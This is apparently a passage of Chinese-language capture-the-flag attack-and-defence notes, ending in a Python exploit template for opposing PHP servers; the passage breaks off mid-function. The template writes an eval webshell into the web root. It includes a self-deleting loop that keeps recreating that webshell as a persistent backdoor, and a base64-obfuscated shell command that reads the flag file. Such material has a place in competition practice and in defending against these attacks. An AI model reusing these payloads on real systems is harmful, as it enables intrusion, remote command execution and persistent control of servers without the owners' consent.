 4. 反序列化

针对框架和链子

5. flag

```
/flag|base64|php/i
```

### 框架已知漏洞,0day,在野已公开漏洞

收集漏洞库，爬取先知安全客

## 跑 exp

```python
./exp.py -i ip -p port -e exp
```

```
'192.168.[1:60].1' -> ['192.168.1.1', '192.168.2.1', ..., '192.168.60.1']

'[10001:10301:100]' -> [10001, 10201, 10301]
```

exp 格式：

```python
import requests
from flag import FLAG_RE
from ip import ip_sign
import base64

id = 1 # 题目id

name = "/.index.php" # 改成要落地的文件名


payload = f"""
file_put_contents('/var/www/html/{name}', '<?php eval($_POST["ip_sign"]);');
"""

backdoor = f"""
ignore_user_abort(1);
set_time_limit(0);
unlink(__FILE__);

while(true) {
  file_put_contents('/var/www/html/{name}', '<?php eval($_POST["ip_sign"]);');
  usleep(5000);
}
"""

cmd = """
system('cat /flag');
"""

cmd = """
system('echo Y2F0IC9mbGFnIHwgYmFzZTY0Cg== | base64 -d | sh');
"""

def exp(ip, port):
  url = 'http://{}:{}'.format(ip, port)
  sign = ip_sign(url, 'awd-is-fun') # 获得靶机签名，盐记得改
  p = payload.replace('ip_sign', sign)
  # p = backdoor.replace('ip_sign', sign)
  s = requests.Session()
```